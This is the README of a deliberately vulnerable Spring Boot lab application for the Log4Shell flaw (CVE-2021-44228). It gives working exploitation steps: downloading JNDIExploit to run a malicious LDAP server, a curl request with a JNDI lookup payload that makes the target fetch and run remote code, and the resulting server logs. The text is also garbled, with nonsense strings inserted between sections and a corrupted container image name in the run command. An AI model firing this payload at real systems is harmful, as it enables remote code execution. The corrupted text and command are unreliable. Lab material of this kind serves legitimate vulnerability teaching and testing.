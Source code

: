 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)aef

## Running the application
asdf
Run it:
afwef
```bash
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-aaweapp@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
```
aefawefawefasasa
## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528))... 
[Click Here](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to Download the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
awef
* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

